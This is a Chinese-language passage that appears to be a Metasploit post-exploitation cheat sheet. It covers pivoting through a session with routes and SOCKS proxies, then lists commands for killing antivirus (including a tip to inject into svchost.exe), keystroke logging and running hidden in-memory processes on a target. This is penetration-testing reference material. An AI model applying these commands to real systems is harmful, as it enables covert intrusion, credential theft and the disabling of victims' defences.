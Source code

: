 **pivot**

pivot 是 msf 最常用的代理,可以让我们使用 msf 提供的扫描模块对内网进行探测.

```bash
route add [ip] [mask] [session id]      # 添加一个路由
route print
```

如果其它程序需要访问这个内网环境,就可以建立 socks 代理

msf 提供了3个模块用来做 socks 代理.
```
auxiliary/server/socks4a
auxiliary/server/socks5
auxiliary/server/socks_unc

use auxiliary/server/socks4a
SRVHOST:监听的 ip 地址,默认为 0.0.0.0,一般不需要更改.
SRVPORT:监听的端口,默认为 1080.
```

直接运行 run 命令,就可以成功创建一个 socks4 代理隧道,在 linux 上可以配置 proxychains 使用,在 windows 可以配置 Proxifier 进行使用.

---

### 权限维持

**关闭防病毒软件**

```bash
run killav
```

一个技巧是注入到 service.exe/svchost.exe 或 高权限杀软中 干掉 其他杀软

**关闭进程**

```bash
pkill [进程名]
```

**键盘记录**

```bash
keyscan_start   # 开启键盘记录功能
keyscan_dump    # 显示捕捉到的键盘记录信息
keyscan_stop    # 停止键盘记录功能
```

**执行程序**
```bash
execute -f [path] [options] # 在目标主机上执行 exe 文件
-H : 创建一个隐藏进程
-a : 传递给命令的参数
-i : 跟进程进行交互
-m : 从内存中执行
-t : 使用当前伪造的线程令牌运行进程
-s : 在给定会话中执行进程
```

